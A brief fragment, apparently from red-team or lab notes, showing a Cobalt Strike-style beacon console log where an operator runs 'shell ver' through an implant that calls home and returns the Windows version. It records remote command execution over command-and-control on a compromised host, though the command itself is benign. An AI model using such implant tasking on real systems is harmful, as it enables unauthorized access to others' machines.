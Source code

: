 ```powershell
[04/03 19:14:13] beacon> ver
[04/03 19:14:13] [-] Unknown command: ver
[04/03 19:14:16] beacon> shell ver
[04/03 19:14:16] [*] Tasked beacon to run: ver
[04/03 19:14:16] [+] host called home, sent: 34 bytes
[04/03 19:14:16] [+] received output:


Microsoft Windows [Version 10.0.19045.2788]

```
![[Pasted image 20240403201056.png]]
